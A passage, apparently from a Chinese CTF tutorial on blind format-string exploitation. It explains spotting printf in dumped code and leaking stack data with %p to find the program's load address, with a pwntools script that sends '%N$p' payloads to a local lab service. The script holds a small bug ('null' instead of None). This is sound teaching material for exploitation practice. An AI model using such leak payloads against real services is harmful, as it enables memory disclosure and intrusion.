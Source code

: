 [![](assets/1701612281-206fee67a3cc80e469b16f10daf9cbbe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224058-1bef5e30-2579-1.png)

可以对比一下我们给出的源代码，因为是盲打，不会有函数的名称，可以根据传入参数进行判断函数名称，比如 sub\_8048490 就是 printf。

###### 方法二：**从.text 段开始**

先用 %p 泄露出栈上数据，找到两个相同地址，而且这个地址很靠近程序加载初地址（32 位：0x8048000；64 位：0x400000）。

load.py

```plain
from pwn import *
import sys

p = remote('127.0.0.1',11112)

p.recv()
p.sendline('nameaaa')
p.recv()

def where_is_start(ret_index=null):
    return_addr=0
    for i in range(400):
        payload = '%%%d$p.TMP' % (i)
        p.sendline(payload)
        p.recvuntil('right:')
        val = p.recvuntil('.TMP')
        log.info(str(i*4)+' '+val.strip().ljust(10))
        if(i*4==ret_index):
            return_addr=int(val.strip('.TMP').ljust(10)[2:],16)
            return return_addr
        p.recvrepeat(0.2)

start_addr=where_is_start()
```
